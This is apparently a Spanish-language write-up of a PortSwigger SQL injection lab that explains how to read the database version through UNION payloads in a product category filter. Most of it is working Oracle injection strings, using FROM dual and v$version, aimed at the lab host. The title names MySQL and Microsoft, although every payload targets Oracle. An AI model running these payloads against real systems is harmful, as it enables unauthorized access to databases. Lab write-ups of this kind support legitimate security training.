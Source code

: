 # `LAB`: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

### Oracle Cheastsheet:

- [PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

### Explicación:

- En Oracle siempre hay que utilizar una tabla _(o casi siempre...)_. Llamada: `dual`

Es decir, a la Query normal de SQL se podría agregar el `FROM dual`: 

````py
## SQLi Quey para SQL: (Este da error en Oracle!!!)
.web-security-academy.net/filter?category=Pets' Union Select '1','2' -- -

## SQLi Quey para Oracle: Booom!!!!
.web-security-academy.net/filter?category=Pets' Union Select '1','2' FROM dual -- -
````

El otro punto importante es utilizar los querys de Oracle para mostrar la información de la Base de Datos:

````sql
# Opción 1
SELECT banner FROM v$version
# Opción 2
SELECT version FROM v$instance
````

Es decir:

````py
## Es decir:

# Opción 1
.web-security-academy.net/filter?category=Pets' Union Select '1',banner FROM v$version --+-
# Opción 2 (Esta no sirve en este caso y da error...)
.web-security-academy.net/filter?category=Pets' Union Select '1',version FROM v$instance --+-
````

## Solución:

````py
## SQLi Quey para SQL: Prabando el Fuzzig, este query de SQL dará error de Oracle
.web-security-academy.net/filter?category=Pets' Union Select '1','2' -- -

## SQLi Quey para Oracle: Booom!!!!
.web-security-academy.net/filter?category=Pets' Union Select '1','2' FROM dual -- -

## Revisando el cheatsheet de portswigger de Oracle se puede encontrar el Query para mostrar DB Version

# Oracle DB Info Dump:
.web-security-academy.net/filter?category=Pets' Union Select '1',banner FROM v$version --+-

````

